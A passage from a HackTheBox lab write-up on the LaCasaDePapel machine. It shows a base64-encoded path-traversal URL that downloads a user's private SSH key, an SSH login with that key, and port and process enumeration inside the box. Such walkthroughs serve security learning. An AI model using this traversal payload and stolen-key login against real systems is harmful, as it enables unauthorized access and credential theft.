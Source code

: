 Now, what can we do with this? Well after some minutes I found that I have access to `berlin` SSH key so I can download it using `https://lacasadepapel.htb/file/Li4vLi4vLi4vLi4vLi4vaG9tZS9iZXJsaW4vLnNzaC9pZF9yc2E%3D` as the URL.

Bad news? Well The private key was not working... checking the `authorized_keys ` revealed that this was not the key for this user sadly. Time to try with another I guess:

```bash
┌──(kali㉿kali)-[~/Documents/HTB/LaCasaDePapel]
└─$ ssh professor@10.10.10.131 -i id_rsa

 _             ____                  ____         ____                  _ 
| |    __ _   / ___|__ _ ___  __ _  |  _ \  ___  |  _ \ __ _ _ __   ___| |
| |   / _` | | |   / _` / __|/ _` | | | | |/ _ \ | |_) / _` | '_ \ / _ \ |
| |__| (_| | | |__| (_| \__ \ (_| | | |_| |  __/ |  __/ (_| | |_) |  __/ |
|_____\__,_|  \____\__,_|___/\__,_| |____/ \___| |_|   \__,_| .__/ \___|_|
                                                            |_|       

lacasadepapel [~]$
```

Cool! Time to play inside the machine.

## Pwned!

### User flag

Well something I noticed, looks like I cannot get the first flag in `/home/berlin/user.txt`. Checking the processes running and the ports listening... I guess I know why.

```bash
lacasadepapel [~]$ netstat -ltpn
netstat: can't scan /proc - are you root?
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:6200            0.0.0.0:*               LISTEN      -
tcp        0      0 :::22                   :::*                    LISTEN      -

```

```bash
lacasadepapel [~]$ ps
PID   USER     TIME  COMMAND
...
 3261 dali      0:00 /usr/bin/node /home/dali/server.js
 3262 nobody    3:45 /usr/bin/node /home/oslo/server.js
 3263 berlin    0:00 /usr/bin/node /home/berlin/server.js
 3264 nobody    0:34 /usr/bin/node /home/nairobi/server.js
 ...
 6010 dali      0:00 php /usr/bin/psysh
```

